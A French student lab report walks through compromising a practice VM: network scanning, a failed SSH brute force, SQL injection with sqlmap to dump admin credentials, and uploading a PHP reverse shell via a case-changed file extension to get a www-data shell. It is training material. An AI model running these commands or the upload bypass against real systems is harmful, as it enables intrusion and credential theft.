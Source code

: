 # Rapport du TP4

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`
![1732280959237](image/rapport-tp4/1732280959237.png)

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.7/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.7`

![1732281030145](image/rapport-tp4/1732281030145.png)

On voit que 2 ports sont ouverts : le 22 et le 80.

## Port 22

On sait que le port 22 correspont à ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://10.0.2.7`

![1733943721935](image/rapport-tp4/1733943721935.png)

Sans succès...

## Port 80

Il s'agit d'un serveur web, je me rend donc à l'url 10.0.2.7 et je tombe sur un blog

![1732281931595](image/rapport-tp4/1732281931595.png)

En cliquand sur le bouton "test", l'url change.

![1733942527386](image/rapport-tp4/1733942527386.png)

Si j'ajoute un caractère (virugle / apostrophe) dans l'url, j'obtiens un message m'indiquant une erreur de syntaxe SQL.

![1732282094489](image/rapport-tp4/1732282094489.png)

Je sais donc qu'il y a du SQL et je vais pouvoir utiliser l'outil SQLMap sur cette url pour tenter de trouver des failles.

Avec l'option "--db", on cherche à énumérer les bases de données. L'option "--batch" permet de ne pas avoir à confirmer les entrées dans le terminal, cela fait les choix par défaut.
`sqlmap -u http://10.0.2.7/cat.php?id=1 --dbs --batch`

Cette commande nous informe de l'existance de 2 bases de données : "information_schema" et "photoblog".

![1732283321308](image/rapport-tp4/1732283321308.png)

On va maintenant essayer de récupérer toutes les tables de la base de données "information_schema". L'option "-D" permet spécifier la base de données que l'on veut analyser.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D information_schema --tables`

![1732284725781](image/rapport-tp4/1732284725781.png)

Je ne remarque rien de spécial.

On essaye donc de récupérer toutes les tables de la base de données photoblog

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog --tables`

![1732284864154](image/rapport-tp4/1732284864154.png)

Cette fois-ci on observe une table users qui peut nous intéresser pour potentiellement obtenir des identifiants de connexion.

La commande suivante nous permet de tirer des informations des utilisateurs de la base de données photoblog avec l'option "-D" pour spécifier la base de données photoblog et "-T" pour spécifier que l'on veut rechercher dans la table users. "--dump" permet d'extraire des informations de la table.

`sqlmap -u http://10.0.2.7/cat.php?id=1 -D photoblog -T users --dump --batch`

![1732285222603](image/rapport-tp4/1732285222603.png)

La commande nous affiche un user (admin) avec son mot de passe (P4ssw0rd).

En retournant sur google à l'url "http://10.0.2.7" on peut se rendre dans l'onglet admin qui présente un onglet de connexion. Je peux ainsi entrer les identifiants que j'ai obtenu dans la base de données et je parviens effectivement à me connecter.

![1732285546343](image/rapport-tp4/1732285546343.png)

Cela nous redirige vers la page de gestion des utilisateurs

![1732285714579](image/rapport-tp4/1732285714579.png)

Etant donné que PHP est utilisé pour gérer les requêtes, on peut essayer de générer un payload PHP pour attaquer la cible. Un payload PHP est un morceau de code PHP que l'on va insérer dans le serveur cible, afin d'obtenir un shell dans ce cas, pour nous permettre de contrôler le système à distance.

On va générer un script PHP contenant un reverse payload. Ce script va établir une connexion vers l'adresse IP 10.0.2.4 (l'ip de ma machine kali) sur le port (1234).

On fais donc une copie d'un payload pré-existant sur la machine sur notre bureau.

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`

Maintenant on va modifier ce fichier "script.php" afin de faire correspondre l'ip (ip hôte) et le numéro de port (1234).

`sudo nano ~/Desktop/script.php`

![1732293885837](image/rapport-tp4/1732293885837.png)

Je peux ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote.

`nc -lvp 1234`

L'option -l permet d'écouter sur le port 1234 (listen), l'option -v ajoute de la verbosité et l'option -p permet de spécifier le port.

Sur le site web, je clique sur ajouter une image en dessous du tableau.

![1733943172267](image/rapport-tp4/1733943172267.png)

En essayant d'importer le "script.php", et j'ai alors un message d'erreur indiquant "NO PHP!!" qui s'affiche.

![1732289222546](image/rapport-tp4/1732289222546.png)

Pour bypass cette erreur, on peut modifier le nom du fichier de "payload.php" en "payload.pHP". Puis on le réimporte, il n'ya a pas d'erreur et le payload est bien upload sur la machine cible. 

![1732294916166](image/rapport-tp4/1732294916166.png)

Enfin, en cliquant sur le script dans la liste, ce dernier s'execute et netcat intercepte la connexion sur le port 1234, me redirigeant directement sur le terminal de la machine cible.

![1732294208906](image/rapport-tp4/1732294208906.png)

Je peux vérifier que je suis bien connecté à la machine cible avec la commande "ip addr". On retrouve bien l'ip `10.0.2.7`.

![1732295085822](image/rapport-tp4/1732295085822.png)

De plus, grâce à la commande `whoami`, je peux vérifier que je suis connecté à la machine cible en tant qu'utilisateur 'www-data' qui est l'utilisateur par défaut des serveurs web sur linux.

![1733943345811](image/rapport-tp4/1733943345811.png)